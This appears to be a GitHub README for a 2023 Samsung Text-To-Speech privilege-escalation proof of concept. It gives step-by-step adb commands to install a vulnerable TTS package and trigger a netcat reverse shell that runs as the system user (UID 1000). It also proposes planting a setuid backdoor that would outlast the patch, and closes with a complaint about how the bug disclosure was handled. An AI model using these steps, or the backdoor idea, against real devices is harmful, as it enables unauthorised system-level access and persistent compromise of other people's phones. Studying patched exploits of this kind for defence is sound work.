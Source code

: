 # K0mraid3s_System_Shell-Source
 Source code for K0mraid3s 2023 System Shell PoC
As seen on XDA before the public disclousure was removed by XDA Moderators. Patched as of 02/2023

If you just need this prebuilt, see this repo https://github.com/k0mraid3/K0mraid3s-System-Shell

This PoC Should point at localhost port 9997, so nc -lp 9997 into it once built. 

Step 1 - Install the included "komraids_POC_V1.6.apk" to the device, then push the included "samsungTTSVULN2.apk" to /data/local/tmp (adb push samsungTTSVULN2.apk /data/local/tmp) -> Chmod 777 /data/local/tmp/samsungTTSVULN2.apk >>> I advice disabling all battery optimizations for Samsung TTS and Shell, otherwise, it cuts off the shell from time to time.

Step 2 - Make sure ADB is on, Connected and authorized and all power saving is off (as mentioned above) Reboot device.

Step 4 - When device reboots, run this command from ADB. adb shell pm install -r -d -f -g --full --install-reason 3 --enable-rollback /data/local/tmp/samsungTTSVULN2.apk ---> it will return "Success" when done.

Step 5 - Now, open two shells, in the first, do nc -lp 9997 & in the second, do am start -n com.samsung.SMT/.gui.DownloadList -> Look back at the first shell., it should have opened into a new system (UID 1000) shell.

Some things to note: We can use localhost or staric IP, this basically uses a trick with the libmstring and netcat to open a reverse shell in the context of Samsung Text-To-Speech, a preloaded system app on all samsung mobile devices. Once as system, we could find a dir/make a dir somewhere, with a script to get back in, chmod a+s and make a backdoor to outlive a patch of this too...

Its hit or miss, this thing has a personality of its own sometimes in the  sense it will work, or it wont, just keep trying to nc -lp into the shell, its there.

About this project:
Its full or drama and BS. I reported this to Samsung in October 2022, but they have decided this is GOOGLES problem and forgot to tell me their decision. LONG STORY CUT SHORT, Between the time Samsung decided this was GOOGLES problem and them telling me of that decision, somehow, "another external security researcher" reported this exact thing to google in the context it was their find. IDK who, nor do I really care at this point. Its done and over with, but stuff like this is what makes some security researches ever hesitant to share their finds, even with the shady vendors/OEMS.
